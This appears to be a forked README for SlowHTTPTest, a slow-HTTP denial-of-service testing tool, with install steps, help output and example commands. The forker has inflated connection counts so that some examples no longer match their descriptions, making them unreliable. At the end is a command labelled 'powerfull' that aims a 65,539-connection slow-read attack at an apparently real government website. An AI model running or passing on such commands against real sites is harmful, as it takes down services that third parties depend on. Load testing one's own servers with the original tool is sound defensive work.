 ## Disclaimer ##

Any actions and or activities related to the code provided is solely your responsibility.The misuse of the information in this website can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this tool to break the law.
## For install  ##
sudo ./configure && sudo make && sudo make install
slowhttptest 
## for usage ##
slowhttptest -H -u https://loadbal.sni.example.com

attention format like this 

slowhttptest -H -u http://www.xxxv.com -r 200 -l 99999 -c 65539

# SlowHTTPTest #

[![Build Status](https://travis-ci.org/shekyan/slowhttptest.svg?branch=master)](https://travis-ci.org/shekyan/slowhttptest)

SlowHTTPTest is a highly configurable tool that simulates some Application Layer Denial of Service attacks by prolonging HTTP connections in different ways.

Use it to test your web server for DoS vulnerabilites, or just to figure out how many concurrent connections it can handle.
SlowHTTPTest works on majority of Linux platforms, OS X and Cygwin - a Unix-like environment and command-line interface for Microsoft Windows, and comes with a Dockerfile to make things even easier.

Check out [Wiki](https://github.com/shekyan/slowhttptest/wiki) for installation and usage details.

Latest official image is available at [Docker Hub](https://hub.docker.com/repository/docker/shekyan/slowhttptest):
`docker pull shekyan/slowhttptest:latest`

## command for help ##

slowhttptest -h

slowhttptest, a tool to test for slow HTTP DoS vulnerabilities - version 1.8.3

Usage: slowhttptest [options ...]

Test modes:

  -H               slow headers a.k.a. Slowloris (default)
  
  -B               slow body a.k.a R-U-Dead-Yet
  
  -R               range attack a.k.a Apache killer
  
  -X               slow read a.k.a Slow Read
  
Reporting options:

  -g               generate statistics with socket state changes (off)
  
  -o file_prefix   save statistics output in file.html and file.csv (-g required)
  
  -v level         verbosity level 0-4: Fatal, Info, Error, Warning, Debug
  
General options:

  -c connections   target number of connections (50)
  
  -i seconds       interval between followup data in seconds (10)
  
  -l seconds       target test length in seconds (240)
  
  -r rate          connections per seconds (50)
  
  -s bytes         value of Content-Length header if needed (4096)
  
  -t verb          verb to use in request, default to GET for
  
###  EXAMPLES
     Start a slowloris test of host.example.com with 1000 connections, statistics goes into
     my_header_stats, interval between follow up headers is 10 seconds and connection rate is 200
     connections per second:

      $ slowhttptest -c 65539 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://host.example.com/index.html -x 24 -p 3 -l 99999

     Start slow POST test of host.example.com with 3000 connections, statistics goes into
     my_body_stats, interval between follow up headers is 110 seconds, connection rate is 200
     connections per second, Content-Length header value is 8192, maximum length of follow up
     data is random value limited by 10 bytes and probe connections waits 3 seconds for HTTP
     response before marking server as DoSed:

      $ slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://host.example.com/loginform.html -x 10 -p 3

     Start Range Header test of host.example.com with 1000 connections, use HEAD verb, and
     generate HTTP header Range:0-, x-1, x-2, x-3, ... x-y, where x is 10 and y is 3000,
     connection rate is 500: interval between follow up headers is 10 seconds and connection rate
     is 200 connections per second:

      $ slowhttptest -R -u http://host.example.com/ -t HEAD -c 1000 -a 10 -b 3000 -r 500

     Start Slow Read test of host.example.com with 8000 connections, no statistics is generated,
     connection rate is 200 connections per second, TCP advertised window size is a random value
     between 512 and 1024, slowhttptest reads 32 bytes from each connections every 5 seconds, 3
     requests are pipelined per each connections, probe connection waits 3 seconds for HTTP
     response before marking server as DoSed:

       $ slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://host.example.com/resources/index.html -p 3

     Start Slow Read test of host.example.com through HTTP proxy server at 10.10.0.1:8080 with
     8000 connections, no statistics is generated, the rest test vaules are default.
     slowhttptest most likely would test HTTP proxy server itself, rather than target server, but
     it all depends on the HTTP proxy server implementation:

       $ slowhttptest -d 10.10.0.1:8080 -c 8000 -X -u https://host.example.com/resources/index.html

     Start Slow Read test of host.example.com and direct probe traffic through HTTP proxy server
     at 10.10.0.1:8080 with 8000 connections, no statistics is generated, the rest test vaules
     are default.  Specifying another connection channel for probe connections helps to make sure
     that slowhttptest shows valid statistics for availability of server under test:
 
       $ slowhttptest -e 10.10.0.1:8080 -c 8000 -X -u https://host.example.com/resources/index.html

powerfull  $ slowhttptest -d 2x.75.207.xx:80 -c 65539 -X -u http://www.hnyanling.gov.cn/index.html

